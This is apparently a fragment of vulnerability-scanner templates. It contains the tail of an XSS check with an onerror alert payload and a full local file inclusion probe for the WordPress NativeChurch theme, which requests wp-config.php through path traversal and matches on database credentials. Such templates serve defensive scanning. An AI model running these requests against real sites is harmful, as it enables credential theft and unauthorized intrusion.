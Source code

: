 - part - body
- words
  1. ">\<img src onerror=alert(document.domain) x
  2. wrap tern-wrap
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress NativeChurch Theme - Local File Inclusion

## Description

- WordPress NativeChurch Theme is vulnerable to local file inclusion in the download.php file.

- severity - high
- tags - wp-theme,lfi,wp,packetstorm,wpscan,wordpress

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/NativeChurch/download/download.php?file=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
  3. DB_HOST
  4. The base configurations of the WordPress
- condition - and

---

# alfacgiapi

